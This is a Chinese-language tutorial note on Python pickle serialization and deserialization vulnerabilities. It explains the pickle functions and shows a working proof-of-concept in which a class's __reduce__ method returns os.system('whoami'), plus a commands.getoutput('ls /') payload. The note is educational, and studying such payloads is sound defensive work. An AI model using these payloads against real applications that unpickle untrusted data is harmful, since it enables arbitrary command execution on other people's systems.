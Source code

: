 ## python反序列化

### 基础知识

> python 中的pickle模块中的一些函数可以对数据序列化和反序列化

| 函数  | 说明                             |
| ----- | -------------------------------- |
| dumps | 对象反序列化为bytes对象          |
| dump  | 对象反序列化到文件对象，存入文件 |
| loads | 从bytes对象反序列化              |
| load  | 对象反序列化，从文件中读取数据   |

* `pickle.dump`(*obj*, *file*, *protocol=None*, ***, *fix_imports=True*, *buffer_callback=None*)

  `obj`------->对象

  `file`------>存入的文件，后缀名为`.pkl`,必须以二进制可写模式打开`wb`

  `protocol`-------->是pickle的版本，目前`Python 3.9.1`,范围为0到最高`pickle.HIGHEST_PROTOCOL`为5，默认的`DEFAULT_PROTOCOL`为4，指定一个负数就相当于指定 `HIGHEST_PROTOCOL`。

  `Pickler(file, protocol).dump(obj)` 实现的功能跟 `pickle.dump() `是一样的。

  ![image-20210910130717888](D:\Users\L--N\Desktop\MD\security\picture\image-20210910130717888.png)

* `pickle.dumps`(*obj*, *protocol=None*, ***, *fix_imports=True*, *buffer_callback=None*)

  dumps与dump的区别就是dumps不需要写入到文件中，直接返回`bytes`对象

* `pickle.load`(*file*, ***, *fix_imports=True*, *encoding="ASCII"*, *errors="strict"*, *buffers=None*)

  `file`-------->以二进制读取`rb`

* `pickle.loads`(*bytes_object*, ***, *fix_imports=True*, *encoding="ASCII"*, *errors="strict"*, *buffers=None*)

```python
>>> import pickle
>>> import os
>>> pickle.dump(123,open('123.pkl','wb'))
>>> pickle.load(open('123.pkl','rb'))
123
>>> pickle.dumps(123)
b'\x80\x04K{.'
>>> pickle.loads(b'\x80\x04K{.')
123
```

可以序列化的对象

![77654499](D:\Users\L--N\Desktop\MD\security\picture\77654499.png)

### pickle反序列化漏洞

造成python反序列化漏洞的主要原因是`__reduce()__`魔法函数，它会在反序列化结束的时候调用。

另外`pickle.loads`会解决`import`问题，对于未引入的`module`会自动尝试`import`。那么也就是说整个python标准库的代码执行、命令执行函数都可以进行使用。

> `object.__reduce__`()
>
> ![image-20210910141404968](D:\Users\L--N\Desktop\MD\security\picture\image-20210910141404968.png)

该函数需要返回一个元组，第一个参数为可调用对象，第二个是可调用对象的参数

> 在python2中只有内置类才有`__reduce__`方法，即用`class A(object)`声明的类，而`python3`中已经默认都是内置类了

`POC`

```python
import pickle
import os

class A(object):
    def __reduce__(self):
        cmd = "whoami" 
        return (os.system,(cmd,))

if __name__ == "__main__":
    test = A()
    result1 = pickle.dumps(test)
    result2 = pickle.loads(result1)
    

➜ python 4.py
laptop-rhthcab2\l--n
```

> #os.system和os.popen 
> `os.system` 调用系统命令，完成后退出，返回结果是命令执行状态，一般是0
> `os.popen()` 无法读取程序执行的返回值
>
> 
>
> 这两个以`print`才能输出结果，如果是以`return`返回的就不会显示结果。
>
> `commands.getoutput()`这个函数来进行代替
>
> ```python
> class payload(object):
>  def __reduce__(self):
>      return (commands.getoutput,('ls /',))
> ```






more:

`PVM`、`详解`、`opcode`

(https://xz.aliyun.com/t/7436#toc-9)

